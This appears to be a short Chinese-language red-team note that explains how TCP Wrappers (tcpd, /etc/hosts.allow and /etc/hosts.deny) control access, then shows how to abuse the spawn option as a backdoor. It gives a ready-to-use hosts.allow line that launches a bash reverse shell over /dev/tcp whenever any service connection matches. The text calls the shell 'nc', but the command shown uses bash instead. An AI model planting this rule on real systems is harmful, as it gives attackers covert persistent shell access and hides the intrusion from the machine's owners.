

## TCP Wrappers

TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。

**工作原理**

TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。

**利用**

TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件：

```
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/127.0.0.1/6666 0>&1") & :allow 
```




当使用ssh连接的时候，它开始匹配规则，然后利用spawn执行的nc反弹了一个shell。